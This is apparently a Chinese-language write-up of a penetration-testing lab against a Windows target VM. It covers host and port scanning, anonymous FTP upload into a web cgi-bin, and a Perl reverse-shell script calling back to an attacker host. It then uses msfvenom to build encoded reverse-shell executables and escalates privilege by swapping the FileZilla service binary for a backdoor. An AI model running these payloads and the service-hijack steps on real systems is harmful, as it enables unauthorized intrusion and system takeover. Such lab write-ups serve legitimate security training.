# 一、信息收集

1. 主机发现，如下，靶机ip为172.16.29.133
   
   ```shell
   sudo arp-scan -l
   ```
   
   

2. 端口扫描，靶机有防火墙，需要使用-Pn参数才能扫描到开放端口
   
   ```shell
   nmap -Pn -p- -sV -sC 172.16.29.133
   ```
   
   

3. 如上，开放了21端口ftp、22端口ssh、23端口telnet，存在未授权访问

# 二、getshell

1. ftp匿名登陆，发现存在三个目录，目录中有不少文件
   
   

2. 经过一番尝试后发现靶机还有个web服务，ftp可以put写入文件到web服务的root根目录下
   
   
   
   

3. 尝试写入一个文件到root/cgi-bin目录下，访问web发现会调用exe程序解析执行
   
   
   
   

4. 可以上传一个windows的反弹shell的pl脚本，浏览器中访问该脚本
   
   ```perl
   use IO::Socket;
   $c=new IO::Socket::INET(PeerAddr,"172.16.29.130:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;
   ```
   
   

5. 如上，成功getshell

# 三、权限提升

1. systeminfo查看系统信息，如下，是32位的系统
   
   

2. 切换交互式shell
   
   - 使用msf生成反弹shell的可执行文件
     
     ```shell
     msfvenom -p windows/shell_reverse_tcp LHOST=172.16.29.130 LPORT=80 -e   x86/shikata_ga_nai -f exe > shell222.exe
     ```
   
   - 上传到靶机并执行
     
     
   
   - 成功获取到交互式shell
     
     

3. 查看启动的任务，发现有FileZilla Server FTP server，可通过劫持进程来提升权限
   
   ```shell
   net start
   ```
   
   

4. 停止FileZilla Server FTP server
   
   ```shell
   net stop "FileZilla Server FTP server"
   ```

5. 生成一个新的shell后门，并上传到靶机上
   
   ```shell
   msfvenom -p windows/shell_reverse_tcp LHOST=172.16.29.130 LPORT=6666 -e   x86/shikata_ga_nai -f exe > shell333.exe
   ```

6. 将FileZilla server.exe重命名
   
   ```shell
   rename "FileZilla server.exe" "FileZilla server.exe.bak"
   ```

7. 复制shell后门到FileZilla Server目录下并重命名为FileZilla server.exe
   
   ```shell
   copy \www\root\cgi-bin\shell333.exe "FileZilla server.exe"
   ```

8. kali上开启监听，端口为上面反弹shell指定的6666端口，重新启动FileZilla server
   
   ```shell
   net start "FileZilla Server FTP server"
   ```

9. 成功提权
   
   
